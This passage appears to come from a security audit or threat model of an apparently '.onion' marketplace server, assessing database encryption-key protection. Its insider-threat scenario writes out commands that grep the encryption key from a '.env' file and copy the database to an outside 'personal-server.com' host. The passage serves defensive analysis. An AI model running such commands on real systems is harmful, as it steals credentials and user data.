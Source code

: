 ### Attack Scenario 3: Insider Threat

**Adversary:** Malicious system administrator or dev team member
**Capability:** Legitimate SSH access to production server

**Attack Steps:**
1. **SSH Login:** `ssh admin@marketplace.onion`
2. **Read .env:**
   ```bash
   cat ~/.env | grep DB_ENCRYPTION_KEY
   # Legitimate access, no logs, no alerts
   ```
3. **Exfiltrate Database:**
   ```bash
   scp marketplace.db personal-server.com:/tmp/
   ```
4. **Decrypt Offline:**
   - No network trace (encrypted SSH tunnel)
   - No server logs (legitimate admin access)
   - Impossible to detect or prevent

**Impact:**
- **Zero detection** - Authorized access leaves no trail
- **Zero prevention** - Filesystem ACLs don't help (admin has root)
- **Total breach** - All historical data compromised

---

## Current Security Posture

### What DOES Work (Partially)

**✅ AES-256-GCM Encryption:**
- Strong cipher (NIST-approved)
- Authenticated encryption (tamper detection)
- Properly implemented in [`crypto/encryption.rs`](../../server/src/crypto/encryption.rs)

**✅ Filesystem Permissions:**
```bash
chmod 600 .env  # Owner read/write only
```
- Prevents non-root users from reading `.env`
- Baseline security hygiene

### What DOES NOT Work

**❌ Security Theatre - Encryption Key Protection:**

**Claimed Protection:**
> "Database encryption protects against unauthorized access"

**Actual Protection:**
> "Database encryption protects against unauthorized access **IF attacker doesn't have filesystem access**"
